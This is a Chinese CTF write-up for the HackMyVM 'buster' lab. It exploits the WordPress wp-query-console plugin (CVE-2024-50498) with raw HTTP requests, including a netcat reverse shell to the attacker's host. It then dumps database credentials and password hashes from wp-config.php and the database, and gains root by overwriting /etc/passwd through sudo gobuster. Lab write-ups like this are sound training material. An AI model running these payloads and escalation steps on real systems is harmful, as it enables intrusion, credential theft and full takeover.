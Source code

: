 # HMV buster

## buster

### 靶场链接

https://hackmyvm.eu/machines/machine.php?vm=buster

### 日常扫描
扫出来80端口，打开发现是wordpress
wpscan扫出来两个用户，继续扫描

### 反弹shell

wpscan --api-token  --url http://192.168.64.20/ -e u,ap --plugins-detection aggressive

扫出来漏洞插件wp-query-console，CVE-2024-50498
poc
```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/admin.php?page=wp-query-console
Content-Type: application/json
Content-Length: 45
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Priority: u=0

{"queryArgs":"phpinfo();","queryType":"post"}
```
改成josn格式，bp发过去

看一下被禁用的
><tr><td class="e">disable_functions</td><td class="v">passthru,exec,system,popen,chroot,scandir,chgrp,chown,escapesh</td><td class="v">passthru,exec,system,popen,chroot,scandir,chgrp,chown,escapesh</td></tr>
shell_exec可以试试

```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: 192.168.64.20
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 83

{"queryArgs":"shell_exec('nc -e /bin/bash 192.168.64.3 4444');","queryType":"post"}
```

本地成功拿到shell，开始提权

### 提权

/usr/bin/script -qc /bin/bash /dev/null交互式终端
wp-config.php看看账号密码
```
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'll104567' );

/** Database password */
define( 'DB_PASSWORD', 'thehandsomeguy' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```
查数据库，得到密码
ta0 - $P$BDDc71nM67DbOVN/U50WFGII6EF6.r.
welcome - $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/

爆出来welcome的密码，104567，ta0的爆了好久没出来

ssh上去之后发现sudo -l发现gobuster可以sudo无密码执行，这个就是提权点
传个pspy上去看看运行的东西，发现/opt/.test.sh在后台运行，利用这个提权，但是不会（）。
看了佬的wp，有一个gobuster的通杀提权方法？

```#kali
perl -e 'print crypt("1","aa")'

cat a.py             
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if len(path) == 36:
        return Response(status=404)
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)

python a.py
 * Serving Flask app 'a'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.64.3:80
Press CTRL+C to quit

#靶机
echo 'aaa:aacFCuAIHhrCM:0:0:x:/root:/bin/bash' > aaa
sudo /usr/bin/gobuster -w aaa -u http://192.168.64.3 -n -q -o /etc/passwd
cat /etc/passwd
su - /aaa
```
然后就提权成功了
